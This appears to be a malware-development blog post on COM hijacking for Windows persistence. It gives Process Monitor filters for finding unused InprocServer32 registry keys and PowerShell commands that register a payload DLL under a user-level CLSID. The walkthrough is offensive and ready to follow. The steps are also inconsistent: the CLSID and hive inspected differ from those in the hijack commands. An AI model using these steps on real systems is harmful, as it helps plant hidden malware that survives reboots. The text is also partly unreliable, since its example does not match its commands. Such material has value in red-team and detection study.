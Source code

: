 ```yaml
---
layout: post
title: COM Hijacking
date: 2023-12-22
categories: [Malware Development, Persistence]
tags: [persistence]     
---
```


> COM is a system within Windows to enable interaction between software components through the operating system. 
  References to various COM objects are stored in the Registry

- https://attack.mitre.org/techniques/T1546/015/

We can establish persistence through COM by hijacking a COM object. When the tampered object is referenced, our payload will be executed in place of the original software component. Hijacking COM objects that are in use can lead to broken applications, so we should look for applications that try to reference broken/unused keys.

To achieve this we can use Process Monitor from the SysInternal suite. Apply these filters

- Operation -> is -> RegOpenKey
    
>   RegOpenKey opens the specified registry key. We use this filter because COM objects are stored in the registry

- Result -> is -> NAME NOT FOUND

>   We use this filter because we don't want to hijack COM objects that are in use

- Path -> ends with -> InprocServer32

>   This register contains a 32-bit in-process server. In this context, that means a DLL that provides services to other applications

Now we will be able to see every process activity that meets this critera. To speed things up, we can open random applications (like Access, Outlook and so on). We should look for an object that is not referenced very frequently, as executing the payload every second is not a good idea.

Let's take for example this COM object, with the CLSID `{4590F811-1D3A-11D0-891F-00AA004B2E24}` (The CLSID is an unique identifier for COM class objects)

```
HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32
```

Let's check it's contents

```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment
```

If we can change the value of `(default)` from `C:\Windows\System32\thumbcache.dll` to our payload, persistence is succesfully established.

```PowerShell
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Path\To\payload.dll"
```
We also need to change the threading model to support both single threaded and multi-threaded mode.

```PowerShell
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

After we are done, we should delete the registry entry and DLL.